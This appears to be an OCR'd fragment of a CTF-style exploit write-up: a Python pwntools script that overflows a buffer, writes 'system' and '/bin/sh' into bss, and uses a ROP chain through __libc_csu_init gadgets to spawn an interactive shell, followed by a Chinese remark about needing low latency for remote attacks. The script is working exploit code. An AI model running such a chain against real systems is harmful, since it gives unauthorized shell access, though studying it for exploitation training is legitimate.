 ```python
# send p64(system_addr) + "/bin/sh\0"
p.send(p64(system_addr))
p.send("/bin/sh\0")
sleep(1)

p.recvuntil("Hello, World\n")

#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400606) + p64(0xdeadbeef) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)

print "\n#############sending payload3#############\n"

sleep(1)
p.send(payload3)

p.interactive()
```

如果进行远程攻击的话，需要保证ping值足够小才行（局域网）